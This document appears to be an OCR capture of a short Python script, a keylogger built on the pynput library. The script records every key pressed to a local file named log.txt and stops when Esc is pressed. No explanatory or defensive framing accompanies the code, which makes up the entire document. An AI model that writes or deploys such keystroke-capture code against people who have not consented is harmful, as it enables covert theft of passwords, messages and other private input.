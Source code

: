 import pynput

from pynput.keyboard import Key,Listener

count = 0
keys = []

def on_press(key):
    global count,keys
    count += 1
    format(key)
    keys.append(key)

    if count >= 1:
        count = 0
        write_file(keys)
        keys = []

def write_file(keys):
    with open("log.txt" , "a" , encoding="utf-8") as file:
        for key in keys:

            k = str(key).replace("'", "")
            if k.find("space") > 0:
                file.write("\n")
            elif k.find("Key") == -1:
                file.write(k)


def on_release(key):
    if key == Key.esc:
        print("exit")
        return False


with Listener(on_press = on_press, on_release = on_release) as listener:
    listener.join()
